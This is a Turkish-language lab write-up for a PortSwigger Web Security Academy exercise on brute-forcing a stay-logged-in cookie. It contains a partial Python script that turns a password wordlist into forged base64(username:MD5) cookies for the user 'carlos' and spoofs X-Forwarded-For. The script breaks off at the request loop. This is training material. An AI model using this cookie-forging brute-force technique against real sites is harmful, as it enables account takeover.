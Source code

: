 #### 9.Lab: Brute-forcing a stay-logged-in cookie

Stay-logged-in cookie de brute force açığı var.
- cookie değeri base64 encoded bir değer
- decode ettiğimizde username:AHASHVALUE elde ediyoruz
- bu değeri de decode ettiğimizde password değerini alıyoruz
- brute-force uygulamasını bunu üzerinden yapacağız
- bunun için bir python kodu yazdım:
```
import base64
import hashlib
import requests as r

def encode_base64(value: str) -> str:
    encoded_bytes = base64.b64encode(value.encode('utf-8'))
    return encoded_bytes.decode('utf-8')

def encode_md5(value: str) -> str:
    md5_hash = hashlib.md5(value.encode('utf-8'))
    return md5_hash.hexdigest()

url = "https://0ae100b60453143d80f1f90700be00f6.web-security-academy.net/my-account?id=carlos"
headers = {
    "Host": "0ae100b60453143d80f1f90700be00f6.web-security-academy.net",
    "Content-Length": "30",
    "Cache-Control": "max-age=0",
    "X-Forwarded-For": "192.169.100.100", 
    "Sec-Ch-Ua": "\"Chromium\";v=\"135\", \"Not-A.Brand\";v=\"8\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": "\"Windows\"",
    "Accept-Language": "tr-TR,tr;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://0ae100b60453143d80f1f90700be00f6.web-security-academy.net",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://0ae100b60453143d80f1f90700be00f6.web-security-academy.net/my-account?id=carlos",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=0, i"
}
cookies = {"stay-logged-in": "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw", 
           "session": "dPvKkmZsDjfI4TSrxVAwM7MQw1PEAM0G"}

p_directory = "SecLists/Passwords/PortSwiggerPasswords.txt"

with open(p_directory,'r') as file:
    passwords = [line.strip() for line in file]

encoded_verification = []
for i in passwords:
    p_md5 = encode_md5(i)
    temp_str = f'carlos:{p_md5}'
    p_md5_64 = encode_base64(temp_str)
    encoded_verification.append(p_md5_64)
suc =''
for i in encoded_verification:
    cookies["stay-logged-in"] = i
```